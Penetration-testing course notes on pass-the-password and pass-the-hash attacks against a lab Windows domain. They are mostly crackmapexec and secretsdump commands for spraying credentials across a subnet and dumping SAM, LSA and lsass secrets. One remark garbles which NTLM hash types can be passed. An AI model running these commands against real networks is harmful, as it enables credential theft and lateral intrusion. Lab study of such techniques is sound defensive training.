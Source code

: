 # Introduction
What happens after we get an account?
What can we do with this access?
Let's move horizontally and vertically.
# Pass Attacks Overview
## Overview
Two attacks: `pass the password` and `pass the hash`
This can be performed after dumping SAM using tools such as:
   - metasploit
   - secretsdump.py
```bash
secretsdump.py domain/username:password@ip-address
```
We can do it with the hash or after cracking the password.
We can pass these values around the network for lateral movement.
## Tools and Usages
### crackmapexec
- Getting general help
```bash
crackmapexec --help
```
- Getting help for a specific command
```bash
crackmapexec smb --help
```
- Using a password
```bash
crackmapexec smb ip/CIDR -u user -d domain -p password
```
- Using a hash. Note: We need NTLMv1. v2 cannot be passed around.
```bash
crackmapexec smb ip/CIDR -u user -H hash --local-auth
```
**Examples:**
```bash
# Password
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
# Hash
crackmapexec smb 10.0.0.0/24 -u administrator -H hash-here --local-auth
```
- Dump the SAM
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H hash-here --local-auth --sam
```
- Share enumeration
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H hash-here --local-auth --shares
```
- Dumping LSA (Local Security Authority)
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H hash-here --local-auth --lsa
```
- Built-in modules
```bash
crackmapexec smb -L
```
- Dumping lsass
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H hash-here --local-auth -M lsassy
```
   - What is lsass? It is responsible for enforcing security policy in a system. It does store credentials that we can dump.